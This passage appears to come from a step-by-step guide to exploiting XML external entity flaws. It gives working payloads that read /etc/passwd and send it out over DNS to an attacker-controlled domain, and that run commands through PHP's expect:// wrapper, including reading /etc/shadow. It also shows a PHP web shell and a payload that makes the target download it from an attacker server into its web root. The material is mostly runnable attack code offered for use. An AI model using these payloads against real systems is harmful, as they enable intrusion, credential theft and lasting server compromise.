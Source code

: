 ```xml
<!DOCTYPE submission [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY oob SYSTEM 'http://%file;.yourdomain.com/'>">
  %eval;
]>
<submission>
  <source>&oob;</source>
</submission>
```

Capture with `tcpdump port 53` or a DNS server log. For large files, split into chunks using CDATA or substring methods (requires custom DTD hosting for advanced cases).

---

## 5. Achieving Remote Code Execution (RCE)

### Step 7: Using `expect://` Wrapper for Command Execution
If PHP's `expect` extension is installed (check via `phpinfo()` if accessible), execute commands:

```xml
<!DOCTYPE submission [
  <!ENTITY rce SYSTEM "expect://ls -la /">
]>
<submission>
  <source>&rce;</source>
</submission>
```

Response could list root directory. Escalate with `id`, `uname -a`, or `cat /etc/shadow`.

### Step 8: Deploying a Persistent Web Shell
Host a shell:

```php
<?php system($_GET['cmd']); ?>
```

Saved as `shell.php`, served via `python3 -m http.server`.

Inject:

```xml
<!DOCTYPE submission [
  <!ENTITY deploy SYSTEM "expect://curl http://yourserver/shell.php -o /var/www/html/shell.php">
]>
<submission>
  <source>&deploy;</source>
</submission>
```

Execute via `http://target.site/shell.php?cmd=uname -a`. Use `wget` or `fetch` alternatives. For non-writable dirs, use `/tmp` and symlink if possible.

---
